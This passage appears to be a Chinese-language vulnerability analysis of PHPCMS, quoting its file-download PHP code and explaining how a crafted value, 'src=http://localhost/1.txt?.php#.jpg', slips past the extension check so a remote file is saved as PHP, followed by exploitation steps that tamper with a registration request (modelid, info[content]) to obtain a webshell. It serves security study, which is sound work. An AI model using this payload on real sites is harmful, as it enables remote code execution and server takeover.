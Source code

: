 ```php
			$filename = fileext($file);
			$file_name = basename($file);
			$filename = $this->getname($filename);

			$newfile = $uploaddir.$filename;
			$upload_func = $this->upload_func;
			if($upload_func($file, $newfile)) {
				$oldpath[] = $k;
				$GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
				@chmod($newfile, 0777);
				$fileext = fileext($filename);
				if($watermark){
					watermark($newfile, $newfile,$this->siteid);
				}
				$filepath = $dir.$filename;
				$downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
				$aid = $this->add($downloadedfile);
				$this->downloadedfiles[$aid] = $filepath;
			}
		}
		return str_replace($oldpath, $newpath, $value);
	}
```
需要注意下这里处理的顺序
是先对传入的`$value`进行匹配-->然后再对进行url处理-->再获取最后一个`.`后面的字符为后缀名  
再对其进行url处理的时候，会处理掉`#`后面的符号，但是会保留`?`后面的符号  
于是就可以构造如下的`$value`进行绕过  
```
src=http://localhost/1.txt?.php#.jpg
```
这样在正则匹配时，就会绕过后缀名的检测，然后再取后缀时，去掉`#`后面的字符，获取到php的后缀，就可以getshell
  
最后还有一些漏洞触发的简单条件，就是之前进入editor时，要对应的field为content  
![](phpcms-漏洞分析/2.png)
就要modelid为`1，2，3，11`中的一个 

## 漏洞利用
现在注册页面抓一个包
![](phpcms-漏洞分析/3.png)
修改下modelid字段为2,删除birthday字段  
然后主要就是info[content]字段，构造成`src=http://localhost/1.txt?.php#.jpg`，进行简单的url编码  